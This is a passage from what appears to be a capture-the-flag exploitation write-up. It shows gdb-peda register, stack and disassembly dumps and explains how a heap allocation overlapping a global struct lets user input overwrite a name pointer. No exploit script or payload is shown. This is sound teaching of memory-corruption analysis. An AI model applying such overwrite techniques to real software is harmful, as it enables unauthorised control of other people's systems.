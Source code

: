 ```
0016| 0x7fffffffde00 --> 0x7fffffffde70 --> 0x401120 (push   r15)
0024| 0x7fffffffde08 --> 0x400750 (xor    ebp,ebp)
0032| 0x7fffffffde10 --> 0x7fffffffdf50 --> 0x1 
0040| 0x7fffffffde18 --> 0x8f96fc56bdd0000 
0048| 0x7fffffffde20 --> 0x0 
0056| 0x7fffffffde28 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 3, 0x0000000000400ad3 in ?? ()
gdb-peda$ x/x 0x6020f0
0x6020f0:	0x0000000000603070
```

So here we can see that the heap space that is allocated is directly overlapping with the `ptr` structure. So when we start inputting data, we will start overwriting the struct in `ptr` starting with the pointer to the pet's name:

```
gdb-peda$ c
Continuing.
eye
How old?
> 








[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffde00 --> 0x7fffffffde70 --> 0x401120 (push   r15)
RBX: 0x6030b0 --> 0x603090 --> 0x7375726f68 ('horus')
RCX: 0xb ('\x0b')
RDX: 0x4 
RSI: 0x7fffffffde00 --> 0x7fffffffde70 --> 0x401120 (push   r15)
RDI: 0x0 
RBP: 0x7fffffffde30 --> 0x7fffffffde70 --> 0x401120 (push   r15)
RSP: 0x7fffffffddf0 --> 0x100401668 
RIP: 0x400b1c (call   0x4006f0 <read@plt>)
R8 : 0x7ffff7fd1700 (0x00007ffff7fd1700)
R9 : 0xb ('\x0b')
R10: 0x7ffff7b84f60 --> 0x100000000 
R11: 0x246 
R12: 0x400750 (xor    ebp,ebp)
R13: 0x7fffffffdf50 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400b0f:	mov    edx,0x4
   0x400b14:	mov    rsi,rax
   0x400b17:	mov    edi,0x0
=> 0x400b1c:	call   0x4006f0 <read@plt>
   0x400b21:	mov    eax,DWORD PTR [rbp-0x3c]
   0x400b24:	cdqe   
   0x400b26:	mov    rbx,QWORD PTR [rax*8+0x6020a0]
   0x400b2e:	lea    rax,[rbp-0x30]
Guessed arguments:
arg[0]: 0x0 
arg[1]: 0x7fffffffde00 --> 0x7fffffffde70 --> 0x401120 (push   r15)
arg[2]: 0x4 
[------------------------------------stack-------------------------------------]
```